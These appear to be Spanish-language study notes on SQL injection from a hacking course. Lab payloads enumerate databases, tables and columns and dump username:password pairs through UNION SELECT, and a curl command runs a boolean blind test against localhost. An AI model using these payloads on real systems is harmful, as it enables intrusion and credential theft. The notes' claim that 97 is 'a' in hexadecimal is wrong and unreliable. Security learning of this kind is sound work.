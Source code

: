 ```yaml
---
created: 2024-12-21

---
```

-----
+ tags: #sql #sqli #sqlmap #web 
-----

----------------------==Información==--------------------
La idea es insertar código en la cosulta a la base de datos. Si la consulta se hace así: '$id', hará falta insertar una comilla para escapar,
sin embargo **si no hay comillas no hará falta!!!**


# Error Based

> Las inyecciones Error Based permiten ver el error en la query al realizar la inyección SQL.

## Procedimiento:
### Descubrir el número de columnas
	?id=3' order by 100-- -
	?id=3' order by 50-- -
	?id=3' order by 20-- -
	?id=3' order by 10-- -
	?id=3' order by 1-- -
*Cuando hagamos coincidir el número de columnas con el real, la respuesta cambiará*

### Seleccionar las columnas que existen
- Lo que buscamos aquí es seleccionar las columnas que hayan para poder sustituir más tarde dichos valores por otros.

*En el siguiente ejemplo simulamos que hemos encontrado 5 columnas:*

	?id=3' union select 1,2,3,4,5-- -

*Si utilizando la query anterior no vemos nada raro, podemos cambiar el 3 por un valor que no exista en la base de datos:*

	?id=123456' union select 1,2,3,4,5-- -


### Extracción de la información
Ahora nos queda extraer la información, se pueden probar varias cosas:


#### Base de datos en uso

	database()


#### Ver bases de datos existentes

	schema_name from information_schema.schemata 

*SI hay mas bases de datos que columnas por las que filtrar, no podrán mostrarse todas las bases de datos de esta manera. Ver Alternativa*

#### Ver bases de datos existentes (Alternativa)

	schema_name from information_schema.schemata limit 0,1
	schema_name from information_schema.schemata limit 1,1
	schema_name from information_schema.schemata limit 2,1

#### Ver bases de datos existentes (Alternativa 2 (Más recomendable))
	?id=123456' union select group_concat(schema_name) from information_schema.schemata-- -


#### Ver tablas existentes
	?id=123456' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4U'-- -

	(Respuesta: users)

#### Ver columnas existentes
	?id=123456' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4U' and table_name='users'-- -

	(Respuesta: id,username,password)

#### Ver columnas existentes (Alternativa si la base de datos es la que esta en uso)
	?id=123456' union select group_concat(column_name)


#### Ver valores de las columnas
	?id=123456' union select group_concat(username) from Hack4U.users-- -
	?id=123456' union select group_concat(username,0x3a,password) from Hack4U.users-- -

#### Ver valores de las columnas (Alternativa si la base de datos es la que esta en uso)
	?id=123456' union select group_concat(username) from users-- -
	?id=123456' union select group_concat(username,0x3a,password) from users-- -



# Non-Error Based

> Las inyecciones Non-Error Based no permiten ver el error en la query al realizar la inyección SQL.

## Procedimiento:
### Descubrir el número de columnas
	?id=3' order by 100-- -
	?id=3' order by 50-- -
	?id=3' order by 20-- -
	?id=3' order by 10-- -
	?id=3' order by 1-- -
	
*Cuando hagamos coincidir el número de columnas con el real, la respuesta cambiará*



# Blind 

## Boolean Based

	curl -s -I -X GET "http://localhost/searchUsers.php" -G --data-urlencode "id=9 or (select(select ascii(substring(username,1,1)) from users where id = 1)=97)"

97 es 'a' en hexadecimal. El primer usuario es admin y por lo tanto el primer caracter es 'a', por lo que la respuesta será código de estado 200, 1, TRUE...











